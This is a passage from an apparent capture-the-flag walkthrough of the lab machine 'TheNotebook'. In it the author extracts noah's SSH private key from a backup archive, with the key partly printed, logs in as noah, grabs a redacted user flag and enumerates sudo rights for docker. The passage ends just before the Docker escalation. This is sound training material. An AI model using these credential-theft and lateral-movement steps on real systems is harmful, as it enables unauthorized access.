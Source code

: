 It looks to be noah’s home directory, and there’s a private key in `.ssh`. I’ll read the key from the archive (without extracting it to disk first to not make a mess):

```

www-data@thenotebook:/var/backups$ tar xf home.tar.gz -O home/noah/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAyqucvz6P/EEQbdf8cA44GkEjCc3QnAyssED3qq9Pz1LxEN04
HbhhDfFxK+EDWK4ykk0g5MvBQckcxAs31mNnu+UClYLMb4YXGvriwCrtrHo/ulwT
...[snip]...
Uh6he5GM5rTstMjtGN+OQ0Z8UZ6c0HBM0ulkBT9IUIUEdLFntA4oAVQ=
-----END RSA PRIVATE KEY-----

```

### SSH

The key works to SSH as noah:

```

oxdf@parrot$ ssh -i ~/keys/thenotebook_noah noah@10.10.10.230
...[snip]...
noah@thenotebook:~$ 

```

And I can grab the `user.txt`:

```

noah@thenotebook:~$ cat user.txt
68aa2b88************************

```

## Shell as root

### Enumeration

noah can run `sudo` to run `docker` as root to start a specific set of containers:

```

noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*

```

When looking at this, the important thing to look at is the version of Docker running:
